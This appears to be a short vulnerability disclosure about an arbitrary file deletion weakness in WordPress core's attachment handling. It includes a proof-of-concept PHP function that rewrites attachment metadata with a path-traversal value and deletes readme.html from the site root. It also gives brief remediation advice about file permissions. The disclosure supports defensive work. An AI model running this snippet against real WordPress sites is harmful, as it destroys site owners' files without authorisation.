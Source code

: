 # Wordpress arbitrary file delete

WordPress have a lot of serious issues with paths. There were several tries in the past for security and core team to fix arbitrary file delete issues in the core, but bugs (plural) still remain. Why this bug presented here exist? (there are many another use cases in the core) Because core is solving arbitrary file delete on the following way: limit the file (thumbnail) deletion only for the same folder where is file/attachment and make sure thumbnail isn’t used by another media file. Again, technical detailed writing is huge and more advanced (will be presented in near future), but goal of this writing is something else. :) 

## Eli5 PoC
- Upload picture in your WP and get its post_id / attachment_id
- this demo code will delete `readme.html` from WP root directory
- enable `hello.php` plugin and append this code at the end
```
function afd(){
    
    global $wpdb;
    
    $attachment_id = "93";
    $thumb = "readme.html" 
    //set up 'thumb' on the same way core does
    $newmeta          = wp_get_attachment_metadata( $attachment_id, true );
    $newmeta['thumb'] = wp_basename( $thumb );
    wp_update_attachment_metadata( $attachment_id, $newmeta );
    
    //set up apropriate value for _wp_attached_file
    $wpdb->query("UPDATE `wp_postmeta` SET `meta_value` = '../../license.txt' WHERE `wp_postmeta`.`meta_key` = '_wp_attached_file' and `wp_postmeta`.`post_id` = '".esc_sql($attachment_id)."'");
    //delete attachment    
    wp_delete_attachment($attachment_id);
}

add_action("init", "afd");
```
- `readme.html` is deleted from the WP root

## Few facts
- `_wp_attached_file` remains single point of failure for WP
- there is use case in the core where creation of backup of any file is possible and this opens door for silent exploitation when arbitrary file delete is in game

## Remediation
- core files shouldn’t be writable by www-data user
- plugins files shouldn’t be writable by www-data user


